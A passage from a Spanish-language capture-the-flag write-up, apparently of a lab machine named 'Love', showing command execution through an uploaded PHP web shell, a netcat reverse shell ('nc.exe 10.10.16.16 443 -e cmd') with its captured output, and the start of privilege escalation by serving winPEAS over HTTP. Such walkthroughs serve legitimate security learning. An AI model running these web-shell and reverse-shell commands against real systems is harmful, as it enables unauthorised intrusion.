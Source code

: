 ![](/assets/img/Love/image_11.png)

Para ejecutar comandos debemos añadir el parámetro ?cmd a al url (`http://10.129.48.103/images/shell.php?cmd=whoami`) 

![](/assets/img/Love/image_12.png)
## Instrusión

Para mandarnos una reverse shell a nuestro equipo vamos a ver si `netcat` está `instalado` en la máquina víctima con `http://10.129.48.103/images/shell.php?cmd=where%20nc.exe`. Deberíamos de ver este output

![](/assets/img/Love/image_13.png)

Antes de mandarnos la shell debemos ponernos en `escucha` por el `puerto 443`

```
# nc -nlvp 443
```

A continuación ya podemos mandarnos la consola a nuestro equipo con `10.129.48.103/images/shell.php?cmd=nc.exe 10.10.16.16 443 -e cmd`. Si todo va bien deberíamos `obtener` una `consola`

```
# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.48.103] 63693
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.

C:\xampp\htdocs\omrs\images>whoami   
whoami
love\phoebe 
```
## Privilege Escalation

Vamos a transferirnos `winpeas.exe` a la máquina `windows` para que nos `analice` formas de `escalar privilegios`. Desde nuestra máquina vamos a montarnos un `servidor` http con `python` por el `puerto 80` en el `mismo directorio` donde se encuentra el binario `winpeas.exe`. Este binario lo podemos `descargar` en [https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS)

```
# python -m http.server 80
```
